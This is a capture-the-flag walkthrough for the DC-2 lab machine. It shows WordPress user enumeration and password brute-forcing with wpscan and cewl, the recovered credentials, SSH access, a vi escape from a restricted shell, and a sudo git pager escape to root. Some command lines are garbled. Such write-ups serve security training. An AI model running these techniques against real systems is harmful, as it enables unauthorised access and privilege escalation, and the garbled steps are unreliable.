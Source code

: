 # DC 2 Walkthrough

### Editing Hosts File

```sh
gedit /etc/hosts
ip    dc-2
>>webbrowser >> http://dc-2
```

### Flag 1

> Your usual wordlists probably wonʼt work, so instead, maybe you just need to be cewl.
> More passwords is always better, but sometimes you just canʼt win them all.
> Log in as one to see the next flag.
> If you canʼt find it, log in as another.

```sh
wpscan --url http://dc-2
### Enumerating Users and Passwords
cewl http://dc-2 > /home/pinisher/Testing/Dc-2/passwords.txt
wpscan --url http://dc-2 -U 'location/users.txt' -P 'location/passwords.txt'
```

**Valid Combinations Found:**

- Username: jerry, Password: adipiscing
- Username: tom, Password: parturient

```sh
nikto http://dc-2 >> wp-login.php
simple login to tom
```

### Flag 2

> If you can't exploit WordPress and take a shortcut, there is another way.
> Hope you found another entry point.

### Scanning for Open Ports

```sh
nmap -p- -sV <target-ip>
### Accessing SSH
ssh tom@<target-ip> -p 7744
ls /usr/bin
### Privilege Escalation
vi
:set shell=/bin/bash
:shell
echo $PATH
export PATH=$PATH:/home/tom/usr/bin:/bin:/sbin:/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin
cd /usr/local
ls
```

### Flag 3
> Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```sh
tom@DC-2:$ echo $(<flag3.txt)
### Checking /etc/passwd
cat /etc/passwd
```

```
tom:x:1001:1001:Tom Cat,,,:/home/tom:/bin/rbash
jerry:x:1002:1002:Jerry Mouse,,,:/home/jerry:/bin/bash
```


```sh
### Switching to Jerry
su jerry
# Enter password
```

### Flag 4

> Good to see that you've made it this far - but you're not home yet.
> You still need to get the final flag (the only flag that really counts!!!).
> No hints here - you're on your own now.
> Go on - git outta here!!!!

### Exploiting Git for Privilege Escalation

```sh
sudo git branch --help config
!/bin/sh
cd root
```

### Final Flag

**Congratulations!!!**

> A special thanks to all those who sent me tweets and provided me with feedback - it's all greatly appreciated.

